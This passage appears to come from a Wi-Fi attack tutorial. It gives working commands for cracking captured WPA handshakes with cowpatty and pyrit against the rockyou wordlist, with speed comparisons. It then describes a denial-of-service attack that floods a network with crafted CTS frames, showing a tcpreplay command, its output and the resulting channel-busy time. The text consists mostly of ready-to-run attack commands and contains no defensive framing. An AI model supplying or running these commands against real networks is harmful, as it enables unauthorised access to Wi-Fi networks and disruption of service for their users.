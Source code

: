 And crackit with Cowpatty:

```
cowpatty -d dic.genpmk -r Captura-01.cap -s <ESSID>  #Up to 360k/s
```

More faster? try with Pyrit:

```
pyrit -i dic.genpmk -e <ESSID> -r Captura-01.cap attack_cowpatty  #Up to 2M/s
```

You still want to go faster? Try pyrit with Database:

```
pyrit -i /usr/share/wordlists/rockyou.txt import_passwords
pyrit -e <ESSID> create_essid
pyrit batch

#Finally attack

pyrit -r Captura-01.cap attack_db  #Up to 20M/s
```

## DoS attacks

#### CTS Frame Attack

The protocol 802.11 is CSMA CA, CA is Collision Avoidance, so in that protocol appear two new types of packets. CTS (Clear to Send) and RTS (Request to Send) that provides to the network the ability to avoid collisions between frames.

What happens if we flood the network with 1000 CTS frames with the time field on his maximum value (30.000 us), if we flood with that TCP stream we will hijack all the bandwidth causing a Denial of Service.

First we need to capture and modify one Clear-to-send frame and modify the Duration to 30.000 us and modify the RA address.

Onced created out evil frame we just need to send several times to the network.

```
tcpreplay --intf1=<IFACE> --topspeed --loop=10000 evilframe.pcap 2>/dev/null

Actual: 10000 packets (460000 bytes) sent in 3.01 seconds
Rated: 152428.1 Bps, 1.21 Mbps, 3313.65 pps
Statistics for network device: wlx00c0caaba818
        Successful packets:        10000
        Failed packets:            0
        Truncated packets:         0
        Retried packets (ENOBUFS): 0
        Retried packets (EAGAIN):  0
```

In that case we busy the channel for:

$$
Time Busy = 10.000 packets * 30.000 us = 30s
$$
